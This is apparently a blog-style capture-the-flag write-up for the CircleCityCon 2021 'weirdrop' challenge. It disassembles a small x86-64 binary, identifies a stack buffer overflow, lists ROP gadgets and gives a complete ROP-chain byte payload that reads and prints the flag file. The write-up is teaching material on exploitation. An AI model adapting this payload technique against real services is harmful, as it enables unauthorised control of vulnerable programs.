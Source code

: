 ```yaml
---
title: "CircleCityCon 2021: weirdrop"
date: 2021-06-16
toc: true
tags: ["CTF", "ROP", "pwn", "linux"]
---
```


I didn't participate in the CTF, but I noticed that there is no writeup for this
challenge, so I decided to address that. :D You can find the exploit source
[here](https://github.com/v-rzh/ctf_writeups/tree/main/circlecitycon21_weirdrop).

## Exploitable Service

We get an exploitable service binary.

```
[joey@gibson] file weird-rop
weird-rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=2876651ce7257d4153ee90b05f0b1a2b29f25700, not stripped
```
Neato! We got a 64-bit ELF. The binary is statically compiled and not
stripped, making reversing and exploitation much easier for us.

## Reversing

Turns out there isn't much to reverse! This is a very lightweight binary,
written in assembly. Here's the program entry:

```asm
┌ 21: entry0 ();
│           0x00401154      e887ffffff     call loc.vuln
│           0x00401159      48c7c03c0000.  mov rax, 0x3c
│           0x00401160      48c7c7000000.  mov rdi, 0
└           0x00401167      0f05           syscall
```
So far so good - the program calls `vuln()` then calls the `exit` system call
with the exit code `0`. If you are looking for an easy reference for the ABI
[bookmark
this](https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md).

Let's take a look at `vuln()`:
```asm
│           0x004010e0      55             push rbp
│           0x004010e1      4889e5         mov rbp, rsp
│           0x004010e4      4883ec10       sub rsp, 0x10
│           0x004010e8      48c7c0020000.  mov rax, 2
│           0x004010ef      488d3c250020.  lea rdi, loc.flag ; 0x402000 ; "/flag.txt"
│           0x004010f7      48c7c6020000.  mov rsi, 2
│           0x004010fe      48c7c2000000.  mov rdx, 0
│           0x00401105      0f05           syscall
```
So far we got `open("/flag.txt", O_RDWR)`. Note that this binary isn't actually
using libc, I'm just using libc functions to make the reversed code easier to
look at. You can find the definitions of flags like `O_RDWR` in `/usr/include`
(e.g. `/usr/include/asm-generic/fcntl.h`).

```asm
│           0x00401107      4883c030       add rax, 0x30
│           0x0040110b      880424         mov byte [rsp], al
│           0x0040110e      c64424010a     mov byte [var_1h], 0xa
│           0x00401113      48c7c0010000.  mov rax, 1
│           0x0040111a      48c7c7010000.  mov rdi, 1
│           0x00401121      4889e6         mov rsi, rsp
│           0x00401124      48c7c2020000.  mov rdx, 2
│           0x0040112b      0f05           syscall
```

At this point the `rax` register holds the file descriptor returned by the
`open` syscall. The program adds `0x30` to the file descriptor, which is a
low-tech way of turning a digit into its ASCII representation (`0x30`
represents zero and so on). We store this value on the stack and append `\n` to
it. The program then outputs this number to the standard output:
`write(STDOUT_FILENO, stack_pointer, 2);`

```asm
│           0x0040112d      48c7c0000000.  mov rax, 0
│           0x00401134      48c7c7000000.  mov rdi, 0
│           0x0040113b      4889e6         mov rsi, rsp
│           0x0040113e      48c7c2c80000.  mov rdx, 0xc8
│           0x00401145      0f05           syscall
│           0x00401147      48c7c7000000.  mov rdi, 0
│           0x0040114e      4883c410       add rsp, 0x10
│           0x00401152      5d             pop rbp
└           0x00401153      c3             ret
```
Reverses to this:
`read(STDOUT_FILENO, stack_ptr, 200);`

The final chunk of this function reads `0xc8` bytes into the stack, nulls out
the `rdi` register, does some cleanup, and returns. Obviously this is the
vulnerability - we can overwrite the return address on the stack and gain
control of the program counter.

## Yucky Gadgets

Okay so.. what's the problem? Just hunt for some useful gadgets and get that
easy 300 points right? Let's see here...

```asm
  0x00401000                 5e  pop rsi
  0x00401001                 c3  ret

  0x00401002     48c7c000000000  mov rax, 0
  0x00401009                 c3  ret
```

Cool cool.

```asm
  0x0040100a     48c7c001000000  mov rax, 1
  0x00401011                 c3  ret

  0x004010db               0f05  syscall
  0x004010dd                 c3  ret
```

Nice!

```asm
  0x0040109b     4881f7cd030000  xor rdi, 0x3cd
  0x004010a2                 c3  ret

  0x004010d3     4881f79a020000  xor rdi, 0x29a
  0x004010da                 c3  ret
```
Uhm...

```asm
  0x004010cb     4881f7a3010000  xor rdi, 0x1a3
  0x004010d2                 c3  ret

  0x004010c3     4881f798010000  xor rdi, 0x198
  0x004010ca                 c3  ret
```
... okay?

26 `xor rdi` gadgets?! Gross.

## Exploitation Plan

The exploitation plan I chose was to take advantage of the open file
descriptor, telegraphed to us by the service, read the contents of the flag
file, and simply write it to the standard output.

Most gadgets are already obvious - we can load `1` and `0` into `rax`
for the `write` and `read` system calls respectively. We even have a gadget to
load the standard output file descriptor (`1`) into `rdi`.

However we still need to put the flag file descriptor in `rdi` and there is no
clear gadget candidate for this. We just got a bunch of awkward XOR gadgets and
that means it's time for some XOR math!

I don't know about you, but I'm pretty lazy, so I just wrote a Python
script to bruteforce the needed XOR gadgets. (Note that since the `rdi`
register is nulled out, the first XOR gadget will just put the immediate value
into the register). The script permutes over every possible combination of XOR
gadgets and breaks when the value is found. `permute.py` is the script I wrote
for this task. Take a look - nothing too fancy there.

The flag file descriptor is always `5`, so we can just run `permute.py` once to
figure out the gadgets we need.

_If you are confused by the file descriptor being `5` and not `3` you are
not alone - it's weird. This is likely due to a little bit more code on the
server side that we don't get to see. (I think the challenge would have been
more interesting if the file descriptor was somewhat random. That way, we'd have
to dynamically determine which gadgets to use)._

```
[joey@gibson]$ ./permute.py 5
0x56 0x53
```
Great - so the XOR gadgets that have these two operands is what we need. We
now have all of the key elements of our exploit. This is the ROP chain I
came up with:

```c
#define EXPLOIT_LEN     0xc8

uint8_t exploit[EXPLOIT_LEN] = {
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // filler!
    0x7c, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x53
    0x1a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x56
    0xde, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // pop rdx
    0x19, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // length value
    0x02, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x0
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x0a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x1
    0x12, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdi, 0x1
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
//  ...
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};
```

First 24 bytes are the filler for the stack - recall that the function subtracts
`0x10` from the stack pointer and pops a register. The first two gadgets are the XOR
gadgets we've determined with `permute.py`. The next gadget pops `0x19` into `rdx`,
which is the length of our read. Finally, we shove the `read` syscall number into
`rax` and call it. Then we simply use the gadgets to load the `write` syscall number
and place stdout file descriptor (`1`) as its first argument. The other two arguments
in registers `rsi` and `rdx` remain the same throughout the exploit. That's it!

```
[joey@gibson]$ ./exploit
CCC{math_is_hard_1234897}
```

